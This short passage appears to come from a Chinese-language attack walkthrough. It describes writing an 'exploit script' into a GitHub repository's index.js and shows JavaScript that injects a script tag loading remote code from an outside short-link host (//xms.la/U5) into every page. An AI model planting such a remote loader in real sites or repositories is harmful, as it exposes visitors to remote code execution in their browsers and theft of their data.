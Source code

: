 ![image.png](assets/1701237930-0a66e6cecccf09f89eb107a12d99a235.png)

![image.png](assets/1701237930-4498771b9c958c38ed266bf1a04e9019.png)  
然后我们将利用脚本写入github仓库里的index.js文件中，把脚本加载到页面

```js
// 创建一个新的script元素
var scriptElement = document.createElement('script');

// 设置script元素的src属性
scriptElement.src = "//xms.la/U5";

// 将script元素添加到页面的头部或其他需要的位置
document.head.appendChild(scriptElement);
```
